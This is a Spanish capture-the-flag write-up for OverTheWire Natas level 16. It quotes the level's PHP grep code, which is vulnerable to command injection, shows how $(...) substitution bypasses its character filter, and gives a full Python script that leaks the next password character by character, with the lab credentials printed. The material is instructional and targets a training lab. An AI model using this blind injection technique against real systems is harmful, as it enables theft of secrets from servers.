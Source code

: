 #Natas Level 15 → Level 16

Username: natas16

URL:      http://natas16.natas.labs.overthewire.org

##Write Up Iker

Abrimos un navegador y nos conectamos a la página: 

- **URL        : http://natas16.natas.labs.overthewire.org** 
- **Usuario    : natas16**
- **Contraseña : WaIHEacj63wnNIBROHeqi3p9t0m5nhmh**

La contraseña la hemos sacado del nivel anterior.

Entramos en la página web y nos muestra un mensaje parecido a la prueba anterior indicando que se han filtrado incluso más caracteres que en la prueba anterior.

```html
For security reasons, we now filter even more on certain characters

Find words containing: 
Search

Output:
```

Encontramos un campo de texto donde podemos buscar palabras dentro de un fichero, al igual que hicimos en alguna prueba anterior.

Antes de meternos en harina, vamos a mirar el código fuente y ver que han podido cambiar.

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) 
{
    $key = $_REQUEST["needle"];
}

if($key != "") 
{
    if(preg_match('/[;|&`\'"]/',$key)) 
    {
        print "Input contains an illegal character!";
    } else 
    {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
```

Vamos a comparar con la prueba nº 10 de Natas en la que también filtraban los caracteres:

Natas10
```php
if(preg_match('/[;|&]/',$key))
```
Natas16
```php
if(preg_match('/[;|&`\'"]/',$key)) 
```

Al igual que en la prueba Natas10 intentamos poner la mascara Wildcard(.*) y vemos que nos devuelve el contenido de todo el fichero.

Intentamos hacer el mismo truco poniendo el siguiente comando, pero no nos funciona.

```bash
.* /etc/natas_webpass/natas17
```

Tenemos que intentar otra cosa. Vamos a analizar que caracteres filtra y podríamos sacar provecho de lo que no filtra.

Filtra los valores ```bash (;, |, &, `, ', ")``` pero no los valores **$** y **()** entre otros. 

Investigando un poco por internet nos encontramos un comando o truco en bash que nos puede servir de ayuda.

El siguiente comando
```bash 
`cat /etc/natas_webpass/natas17`
```
es lo mismo que 

```bash 
$(cat /etc/natas_webpass/natas17)
```

Nos fijamos que no utilizamos ningún caracter prohibido de la lista que han bloqueado y podemos obtener los mismos resultados. 

Bien, hemos pasado el primer filtro y ahora tenemos que montar la consulta para que nos muestre la contraseña del siguiente nivel.

**EXPLICAR LE FUNCIONAMIENTO DE LA VULNERABILIDAD**

Tenemos que conseguir la consulta que realizaremos sea parecida a esta:

```bash
grep -i $(grep -E ^a.* /etc/natas_webpass/natas17)treasure dictionary.txt
```

Bueno, ya que haciendolo a mano tardaríamos una eternidad, vamos a coger el código del nivel anterior y vamos a cambiar los parámetros para que nos devuelva la contraseña.

Lo llamaremos **blindNatas16Injection.py**

```python
import httplib2
import urllib

h = httplib2.Http()
h.add_credentials('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')

passTemporal        = "";
letras              = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
posicion            = 0

while posicion < len(letras):
        # grep -i $(grep -E ^a.* /etc/natas_webpass/natas17)treasure dictionary.txt <- Como quedaria la consulta final
        query = urllib.urlencode(dict(needle="$(grep -E ^" + passTemporal + letras[posicion] + ".* /etc/natas_webpass/natas17)treasure"))
        resp, contenido = h.request("http://natas16.natas.labs.overthewire.org/index.php?" + query, method="GET")
        if ("treasure" not in str(contenido)):
                passTemporal += letras[posicion];
                print("Nueva password encontrada: " + passTemporal)
                posicion = 0
                if (len(passTemporal)==32):
                        break;
                continue
        posicion += 1
print "-"*70
print "Password Natas17 = {0}".format(passTemporal)
print "-"*70
```

Lo ejecutamos y esperamos a que nos devuelva la contraseña para el nivel **Nata17** :smile:

```bash
ikerburguera@:~/Desktop$ python blindNatas16Injection.py 
Nueva password encontrada: 8
Nueva password encontrada: 8P
Nueva password encontrada: 8Ps
Nueva password encontrada: 8Ps3
Nueva password encontrada: 8Ps3H
Nueva password encontrada: 8Ps3H0
Nueva password encontrada: 8Ps3H0G
Nueva password encontrada: 8Ps3H0GW
Nueva password encontrada: 8Ps3H0GWb
Nueva password encontrada: 8Ps3H0GWbn
Nueva password encontrada: 8Ps3H0GWbn5
Nueva password encontrada: 8Ps3H0GWbn5r
Nueva password encontrada: 8Ps3H0GWbn5rd
Nueva password encontrada: 8Ps3H0GWbn5rd9
Nueva password encontrada: 8Ps3H0GWbn5rd9S
Nueva password encontrada: 8Ps3H0GWbn5rd9S7
Nueva password encontrada: 8Ps3H0GWbn5rd9S7G
Nueva password encontrada: 8Ps3H0GWbn5rd9S7Gm
Nueva password encontrada: 8Ps3H0GWbn5rd9S7GmA
Nueva password encontrada: 8Ps3H0GWbn5rd9S7GmAd
Nueva password encontrada: 8Ps3H0GWbn5rd9S7GmAdg
Nueva password encontrada: 8Ps3H0GWbn5rd9S7GmAdgQ
Nueva password encontrada: 8Ps3H0GWbn5rd9S7GmAdgQN
Nueva password encontrada: 8Ps3H0GWbn5rd9S7GmAdgQNd
Nueva password encontrada: 8Ps3H0GWbn5rd9S7GmAdgQNdk
Nueva password encontrada: 8Ps3H0GWbn5rd9S7GmAdgQNdkh
Nueva password encontrada: 8Ps3H0GWbn5rd9S7GmAdgQNdkhP
Nueva password encontrada: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPk
Nueva password encontrada: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq
Nueva password encontrada: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9
Nueva password encontrada: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9c
Nueva password encontrada: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
----------------------------------------------------------------------
Password Natas17 = 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
----------------------------------------------------------------------
```

**FLAG** = {8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw}





